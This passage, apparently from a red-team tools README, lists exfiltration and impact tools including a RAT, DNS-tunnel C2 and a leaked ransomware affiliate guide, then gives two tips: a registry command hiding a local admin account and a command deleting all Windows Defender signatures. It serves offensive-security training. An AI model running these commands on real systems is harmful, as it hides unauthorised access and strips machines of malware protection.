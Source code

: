 <details open>
    <summary><b>Exfiltration</b> 5 tools</summary>
    <ul>
        <ul>
	        <li><b><a href="#dnscat2">Dnscat2</a></b><i> C2 via DNS tunneling</i></li>
	        <li><b><a href="#cloakify">Cloakify</a></b><i> Data transformation for exfiltration</i></li>
            <li><b><a href="#pyexfil">PyExfil</a></b><i> Data exfiltration PoC</i></li>
            <li><b><a href="#powershell-rat">Powershell RAT</a></b><i> Python based backdoor</i></li>
            <li><b><a href="#gd-thief">GD-Thief</a></b><i> Google drive exfiltration</i></li>
        </ul>
    </ul>
</details>

<details open>
    <summary><b>Impact</b> 4 tools</summary>
    <ul>
        <ul>
            <li><b><a href="#conti-pentester-guide-leak">Conti Pentester Guide Leak</a></b><i> Conti ransomware group affilate toolkit</i></li>
            <li><b><a href="#slowloris">SlowLoris</a></b><i> Simple denial of service</i></li>
            <li><b><a href="#usbkill">usbkill</a></b><i> Anti-forensic kill-switch</i></li>
            <li><b><a href="#keytap">Keytap</a></b><i> Get pressed keyboard keys from typing audio</i></li>
        </ul>
    </ul>
</details>
    
Red Team Tips
====================

*Learn from Red Teamers with a collection of Red Teaming Tips. These tips cover a range of tactics, tools, and methodologies to improve your red teaming abilities.*

**Note:** *Nearly all tips are currently from [@Alh4zr3d](https://twitter.com/Alh4zr3d), he posts good Red Team Tips!*

### [🔙](#tool-list)Hiding the local admin account

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v alh4zr3d /d 0 /f
```

**Description:** *'Creating accounts is risky when evading blue, but when creating a local admin, use some cute sorcery in the registry to hide it.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1612913838999113728)

### [🔙](#tool-list)Cripple windows defender by deleting signatures

```bash
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
